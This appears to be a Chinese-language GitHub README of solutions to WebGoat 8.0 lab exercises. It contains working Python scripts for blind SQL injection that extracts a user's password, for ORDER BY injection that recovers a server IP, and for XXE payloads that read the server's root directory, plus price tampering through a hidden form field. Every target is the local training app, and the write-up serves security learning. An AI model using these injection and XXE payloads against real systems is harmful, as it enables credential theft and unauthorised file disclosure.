


# WebGoat8.0

## Install

- [java SE](https://www.oracle.com/technetwork/java/javase/downloads/index.html)
  
  - [Win7设置Java环境变量](https://www.cnblogs.com/iwin12021/p/6057890.html)
  - Install Java 12
  ```
  rpm -Uvh jdk-12.0.1_linux-x64_bin.rpm
  ```
  
- https://github.com/WebGoat/WebGoat
  - [Goat](http://localhost:8080/WebGoat)
  - [Wolf](http://localhost:9090/login)
  
- 实际(例子：`10.1.121.141:8080/WebGoat`；`https://10.1.121.141:9090/WebWolf`)
```bash
java -jar /usr/webgoat/webgoat-server-8.0.0.M25.jar --server.port=8080 --server.address=10.1.121.141
java -jar /usr/webgoat/webwolf-8.0.0.M25.jar --server.port=9090 --server.address=10.1.121.141
```

## SQL 盲注

### sql injection(advanced) 3

from `WebGoat/start.mvc#lesson/SqlInjectionAdvanced.lesson/4`

> 条件：一基于String boot的登录注册系统，无特别安全防护（即封ip等）。
>
> 要求：通过SQL盲注获取用户名为`tom`的用户的密码。

#### 分析

预计需要使用脚本或软件暴力破解密码。

首先，正常注册+注册tom，通过`Chrome`的`Devtools`的`Network`面板，获取脚本所需信息。此处采用`Python`实现：

```python
base_url = # for example, localhost: 8080/
relative_url = "/WebGoat/SqlInjection/challenge"
cookie = {"JSESSIONID": CA022FA656A2740E47503559256EB92D}

username_tmp = # Don't know now
email = '1234546@qq.com'
password = '123456'

params = {
                'username_reg': username_tmp
                'email_reg': email, 
                'password_reg': password, 
                'confirm_password_reg': password
            }

Success_feedback = "User " + username_tmp +  " created, please proceed to the login page."
exist_feedback = "User " + username_tmp +  " already exists please try to register with a different username."  # 注册tom时的feedback
# others?
```

而后，猜测后台会先用`SELECT`语句验证数据库中是否有相同用户名的用户，此猜测可用`username_tmp = tom' AND '1' = '1'; --`验证，运行脚本，返回`User tom' AND '1' = '1'; -- already exists please try to register with a different username.`由此，可知此为SQL盲注的入口，且已知该注册逻辑形似：

```Java
import FinalString.tableName;
import FinalString.userNameString;
String username;

public String login (String username, String email, String password){
    String feedback;
    if (hasUser) {
        feedback = "User " + username + " already exists please try to register with a different username.";
    } else {
        feedback = addUser(...);
    }
    return feedback;
}

public boolean hasUser(String username) {
    String query = "SELECT * FROM " + tableName + " WHERE " +
        userNameString + " = '" + username + "';";
    boolean isExist = ;// execute the query and return a boolean
    return isExist;
}

public String addUser(...) {
    // add user to db. 
}
```

接着设`tableName`表格中有密码字段。但该密码字段未知。但从json中的命名风格来看，大概率为`password`，但也可能用`passwd`、`pwd`、`pass`等。

密码字段与密码的猜测可通过Python实现，核心判断为接收到`Success_feedback`。

编码

先**猜测数据库中的密码字段与密码首字母确定首字母**，密码字段若未猜出，之后将无法继续。确定字段为password后，进行逐位破解。

该过程示例代码如下：

```python
import requests
import json
from string import digits, ascii_letters, punctuation

"""
需要自己改
"""
base_url = "http://10.1.121.141:8080"
cookie = {"JSESSIONID":"CA022FA656A2740E47503559256EB92D"}

relative_url = "/WebGoat/SqlInjection/challenge"
test_set = digits + ascii_letters + punctuation
email = '1234546@qq.com'
password = '123456'
password_fields = ['passwd', 'password']
password_field = "password"
guess = ""
result = ""

def guess_pw(guess, password_field, digit):
    username_tmp = f"tom' AND substring({password_field}, {digit}, 1) = '{guess}';--"
    params = {
        'username_reg': username_tmp, 
        'email_reg': email, 
        'password_reg': password, 
        'confirm_password_reg': password
    }
    r = requests.put(url, cookies=cookie, data=params)
    result_json = r.json()
    feedback = str(result_json['feedback']).strip()
    check = (f"User {username_tmp} already exists please try to register with a different username.")
    if (feedback == check):
        return True
    

if __name__ == "__main__":
    url = base_url + relative_url
    for password_field in password_fields:
        for digit in range (1, 50):
            for guess in test_set:
                isRight = guess_pw(guess, password_field, digit)
                if isRight:
                    result += guess
                    print(guess, end="")
                    break
            else:
                if len(result) == 0:
                    print(f"{password_field} isn't the field")
                break
        if (len(result) < digit and len(result) > 0):
            break
```

#### 结果

运行结果为：

```
passwd isn't the field
thisisasecretfortomonly
```

### 找IP地址 SQL Injection (mitigation) 10

> 条件：一基于String boot的列表查看系统，无特别安全防护（即封ip等）。
>
> 要求：获取名为webgoat-prd的服务器的完整ip，为了降低难度，give you the last part: `xxx.130.219.202`。

```python
import requests
import json
from string import digits

base_url = "http://127.0.0.1:8080"
relative_url = "/WebGoat/SqlInjection/servers?column="
cookie = {"JSESSIONID":"989CC4A31FF888131A56EF470F393DB8"}

# SELECT id, hostname, ip, mac, status, description FROM <table_name> 
# WHERE substring(ip, 1, 3) = '192' OBDER BY ?;
# case when (SELECT ip FROM servers WHERE hostname = 'webgoat-prd' AND substring(ip, 1, 1) = '
"""
for digit in range(1, 4):
    for num in digits:
        build request with digit and num
        if response means success, break
        else continue
"""
"""
substring 不熟，一个小bug卡了半个小时
"""
if __name__ == "__main__":
    url_pre = base_url + relative_url
    nums = ""

    for digit in range(1, 4):
        for num in digits:
            sql_end = f"""case when (SELECT ip FROM servers 
                        WHERE hostname = 'webgoat-prd' 
                        AND substring(ip, {digit}, 1) = '{num}' ) 
                            IS NOT NULL 
                        then ip 
                        else hostname end
                        """
            url = url_pre + sql_end
            r = requests.get(url, cookies=cookie)
            jsons = r.json()
            id = str(jsons[0]['id'])
            if id == '2':  # ip
                nums += str(num)
                break
            elif id == '3':  # hostname
                if len(nums) == 3:
                    break
            else:
                print(id)
    print(nums+ ".130.219.202")

```


### XML外部实体注入攻击

XML外部实体注入攻击（XEE，XML External Entity attack）

#### 3

> from `/WebGoat/start.mvc#lesson/XXE.lesson/3`
>
> 条件：一基于String boot的评论系统，可供用于xml注入。
>
> 要求：通过XML文件获取服务器系统根目录的文件列表。

```python
import requests
from os.path import abspath, dirname


base_url = "http://10.1.121.141:8080"
cookie = {"JSESSIONID":"CA022FA656A2740E47503559256EB92D"}
result_file_name = "xxe3.txt"

relative_url = "/WebGoat/xxe/simple"  # /WebGoat/xxe/content-type, json
result_file_path = dirname(abspath(__file__)) + "\\" + result_file_name

xml = '<?xml version="1.0"?> <!DOCTYPE comment [ <!ENTITY rootpath SYSTEM "file:///"> ]> <comment><text>&rootpath;</text></comment>'
headers = {'Content-Type': 'application/xml'}

url = base_url + relative_url

r = requests.post(url, data=xml, headers = headers, cookies=cookie)
with open(result_file_path, 'w') as file:
    file.write(r.text)
```

运行后文件和网页的结果：

```
{
  "lessonCompleted" : true,
  "feedback" : "Congratulations. You have successfully completed the assignment.",
  "output" : null
}
```



#### 4

> from `/WebGoat/start.mvc#lesson/XXE.lesson/4`
>
> 条件：同3，但通过RESTful的url（理论上只接收json）攻击。
>
> 要求：通过XML文件获取服务器系统根目录的文件列表。
>
> 参考：
>
> 1. https://www.websecgeeks.com/2015/10/attacking-json-application-pentesting.html
> 2. https://www.websecgeeks.com/2016/04/json-hijacking.html

```python
import requests
from os.path import abspath, dirname


base_url = "http://10.1.121.141:8080"
cookie = {"JSESSIONID":"CA022FA656A2740E47503559256EB92D"}
result_file_name = "xxe4.txt"

relative_url = "/WebGoat/xxe/simple"
result_file_path = dirname(abspath(__file__)) + "\\" + result_file_name

xml = '<?xml version="1.0"?> <!DOCTYPE comment [ <!ENTITY rootpath SYSTEM "file:///"> ]> <comment><text>&rootpath;</text></comment>'
headers = {'Content-Type': 'application/json'}

url = base_url + relative_url

r = requests.post(url, data=xml, headers = headers, cookies=cookie)
with open(result_file_path, 'w') as file:
    file.write(r.text)
```



## XSS

Cross-Site Scripting (XSS)

## Insecure Communication

传输过程要加密（其实更要小心公用WiFi）

### 2抓包：为何要加密传输

> from http://localhost:8080/WebGoat/start.mvc#lesson/InsecureLogin.lesson/1
>
> 条件&要求：“抓取”某用户登录的packet

用Fiddler、ZAP等抓包工具获取登录的packet，发现账号密码是明文存储的，记录后自行登录。

## Client side

> **NEVER TRUST INPUT SEND BY A CLIENT.**

### html TAMPERING 2

> from http://localhost:8080/WebGoat/start.mvc#lessonHtmlTampering.lesson/1
>
> 条件：有一电视机采购页面。
>
> 要求：尝试去以更低的价格购买电视机。

有多种方法。

1. 提交表单前，用抓包软件拦截，发现该网页通过Form Data，POST到`/WebGoat/HtmlTampering/task`处。

2. 修改HTML。在HTML中搜索“2999.99”、`input`等字段，发现用DevTools直接修改r如下部分的value即可
   
   ```html
   <input id="Total" name="Total" type="HIDDEN" value="2999.99">
   ```


### Client side filtering

如果冗余的信息发送到前端，用户仅凭浏览器便能获取这部分信息，从而导致信息泄露。

#### 2 冗余的用户信息

> from http://localhost:8080/WebGoat/start.mvc#lesson/ClientSideFiltering.lesson/1
>
> 条件：有一公司内部查询表，可查询相关用户信息。
>
> 要求：仅利用浏览器，找出按权限要求不能获取的CEO的工资。

> 注：此处WebGoat所在地址为http://localhost:8080，若您使用其他，请自行替代

通过浏览器的DevTool观察到此[XHR](http://localhost:8080/WebGoat/lesson_js/clientSideFiltering.js?_=1562651603646)中有`get`方法指向`"clientSideFiltering/salaries?userId="`，据此推断出`/WebGoat/clientSideFiltering/salaries?userId=`中有相关信息。经查，发现其中数据有：

```json
[
    ...
    {
      "Salary" : "450000",
      "UserID" : "112",
      "FirstName" : "Neville",
      "LastName" : "Bartholomew",
      "SSN" : "111-111-1111"
    }
]
```

得到答案为450000

### 3 冗余的结算逻辑

> from http://localhost:8080/WebGoat/start.mvc#lesson/ClientSideFiltering.lesson/2
>
> 条件：有一手机采购页面，可购买多部、多种配置的某型号手机，可用折扣码打折。
>
> 要求：仅利用浏览器，找出按权限要求不能获取的折扣码。

> 注：此处WebGoat所在地址为http://localhost:8080，若您使用其他，请自行替代

跟2类似，通过DevTool观察，发现此[XHR](http://localhost:8080/WebGoat/lesson_js/clientSideFilteringFree.js?_=1562653134370)中逻辑与商品逻辑吻合（一台手机\$899，另有相关运算，且其中有如下计算折扣的逻辑，初步判断折扣结算数据可能有冗余：

```js
$(".checkoutCode").on("blur", function () {
        var checkoutCode = $(".checkoutCode").val();
        $.get("clientSideFiltering/challenge-store/coupons/" + checkoutCode, function (result, status) {
            var discount = result.discount;
            if (discount > 0) {
                $('#discount').text(discount);
                calculate();
            } else {
                $('#discount').text(0);
                calculate();
            }
        });
    })
```

故用浏览器访问[此网址](http://localhost:8080/WebGoat/clientSideFiltering/challenge-store/coupons/)，即可发现相关折扣代码。

```json
{
  "codes" : [ {
    "code" : "webgoat",
    "discount" : 25
  }, {
    "code" : "owasp",
    "discount" : 25
  }, {
    "code" : "owasp-webgoat",
    "discount" : 50
  }, {
    "code" : "get_it_for_free",
    "discount" : 100
  } ]
}
```


